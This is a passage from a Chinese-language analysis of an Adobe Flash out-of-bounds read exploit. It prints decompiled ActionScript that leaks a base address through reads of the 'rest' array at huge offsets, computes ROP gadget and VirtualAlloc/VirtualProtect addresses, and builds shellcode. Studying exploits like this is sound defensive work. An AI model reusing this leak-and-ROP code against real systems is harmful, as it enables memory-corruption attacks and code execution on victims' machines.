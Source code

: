 ```
    {
       this.code.writeUnsignedInt(0x41414141);
       _loc8_++;
    }
...

```

一开始的`_loc2_`从`rest`参数数组的`0x4000000E`偏移处读取了一个数值，这里肯定是有问题的，正常来说不可能是这么大的偏移。所以漏洞就出现在这里，它允许对`rest`参数数组进行越界的读取。但是这个越界读取对应到 Adobe Flash 软件中，又是什么情况呢？

 

继续往下看，读取的这个数经过处理之后变成了`this.baseaddr`。也就是说，由于漏洞的存在，我们可以通过越界读取获取内存中的保存的数据，并在之后使用。

 

`test`函数后面利用这个`baseaddr`，通过进一步计算，得到了更多的后续使用的数值：

```
this.xchg_eax_esp_ret = this.baseaddr - 0x3F48E7;
this.xchg_eax_esi_ret = this.baseaddr - 0x2FF589;
this.pop_eax_ret = this.baseaddr - 0x405D48;
this.VirtualAlloc = this.baseaddr + 0xA6626;
this.jmp_eax = this.baseaddr - 0x3FF11F;
this.pop_ecx = this.baseaddr - 0x405DA0;
this.mov_eax_ecx = this.baseaddr - 0x3B90CC;
this.inc_eax_ret = this.baseaddr - 0x405D4C;
this.dec_eax_ret = this.baseaddr - 0x3BBD96;
this.to_eax = this.baseaddr - 0x3ADC67;
this.virtualprotect = this.baseaddr + 0xA65F2;

```

不同的 Flash 版本计算的数值不同，这也是为什么一开始环境搭建的时候有些 Flash 版本并没有成功进行漏洞利用，因为这里的代码并没有考虑所有的情况，对环境依赖严重。

 

之后开始构建 shellcode，后续还存在两次利用数组越界读取获取信息的代码：

```
var _loc5_:Number = new Number(parseFloat(String(rest[0x3FFFFF96])));
var _loc6_:ByteArray;
(_loc6_ = new ByteArray()).writeDouble(_loc5_);
var _loc7_:uint = _loc6_[0] * 0x1000000 + _loc6_[1] * 0x10000 + _loc6_[2] * 0x100 + _loc6_[3];
this.pobj = _loc7_;
_loc8_ = 0;
this.pobj += 56;
_loc8_ = 0;
while(_loc8_ < 100)
{
   this.code.writeInt(this.pobj);
   _loc8_++;
}
var _loc9_:Number = new Number(parseFloat(String(rest[0x3FFFFFBA])));
_loc3_.position = 0;
_loc3_.writeDouble(_loc9_);
_loc4_ = _loc3_[0] * 0x1000000 + _loc3_[1] * 0x10000 + _loc3_[2] * 0x100 + _loc3_[3];
this.pobj = _loc4_ + 2;
ExternalInterface.call("",this.pobj.toString(16));
_loc8_ = 0;
while(_loc8_ < 100)
{
   this.code.writeInt(this.pobj);
   _loc8_++;
}

```
